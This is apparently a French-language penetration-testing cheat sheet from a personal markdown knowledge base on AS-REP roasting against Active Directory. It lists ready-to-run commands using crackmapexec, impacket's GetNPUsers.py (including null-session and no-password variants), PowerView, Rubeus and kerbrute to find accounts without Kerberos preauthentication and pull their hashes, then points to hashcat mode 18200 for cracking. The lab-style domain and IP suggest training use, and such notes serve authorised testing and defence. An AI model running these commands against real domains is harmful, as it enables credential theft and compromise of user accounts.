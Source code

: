 ```yaml
---
public: true # set to true to make the article publishable
---
```


Nécessite une authentification LDAP valide

Obtention de la liste des utilisateurs n'ayant pas besoin de préauthentifaction.

Après obtention de cette liste, on pourra tenter de casser les mots de passe des utilisateurs.

## A distance

```powershell
crackmapexec ldap  $TARGET -u "$AD_USER" -p "$AD_PASSWORD" --asreproast asrep.txt

# NULL SESSION
GetNPUsers.py "$DOMAIN/" -dc-ip $TARGET -request -outputfile ASREProastables.txt


# Sans authentification
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
proxychains -q GetNPUsers.py -hashes "$PASSWORD" -dc-ip "$DC" "$DOMAIN/$USER" -debug

# Powerview
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat /domain:<domain>

# A VERIFIER NE SEMBLE RIN AVOIR 0 FAIRE ICI
# kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 


```

Cassage du mot de passe avec hashcat  : mode 18200

[[docs/_Techniques/Mots de passe/Casser un mot de passe/Hashcat]]

